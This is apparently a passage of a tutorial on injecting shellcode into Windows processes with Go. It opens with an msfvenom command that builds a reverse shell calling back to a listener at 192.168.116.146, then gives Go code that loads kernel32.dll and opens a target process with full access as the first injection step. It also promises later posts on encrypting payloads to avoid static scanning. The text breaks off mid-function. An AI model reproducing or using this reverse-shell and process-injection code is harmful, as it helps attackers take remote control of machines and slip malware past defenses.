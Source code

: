 # Executing shellcode

Let's test this with a simple metasploit reverse shell, to generate it use msfvenom like this:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.116.146 LPORT=9999 -f raw -o shellcode.bin
```

In this post we'll be using the ***raw*** format, however in future posts we'll see how we can combine encryption/decryption functions to avoid static scanning and much more

As every Golang program we start defining the package name and which packages we want to import

```go
package main

import (
  "os"
  "fmt"
  "log"
  "unsafe"
  "strconv"
  "io/ioutil"

  "golang.org/x/sys/windows"
)
```

To perform this technique we have to use some Windows API calls and to use them in Golang you must import them from their DLLs like this:

```go
func main(){
  // Import dll
  kernel32 := windows.NewLazyDLL("kernel32.dll")

  // Import the function
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")

  // Call the function
  GetCurrentProcess.Call()
}
```

This isn't the only way to do this but it's the most used and it's easy to implement. Other option is using ***CGO*** to use ***C*** code

We also should have in mind that all the API calls return 3 values but we just will use the first and the third of them. Once we know how to access the Windows API in Golang we can continue.

The first step to inject shellcode is to get a handle to the desired process:

```go
func main(){
  ...

  // Get function from kernel32.dll
  OpenProcess := kernel32.NewProc("OpenProcess")

  pid := 1042 // Process ID (change it)
  procHandle, _, _ := OpenProcess.Call(
    windows.PROCESS_ALL_ACCESS, // Access to the process
    uintptr(0), // FALSE
    uintptr(pid), // Process to open
  )

  if procHandle == 0 { // Handle error
    fmt.Println("An error has ocurred with OpenProcess!")
```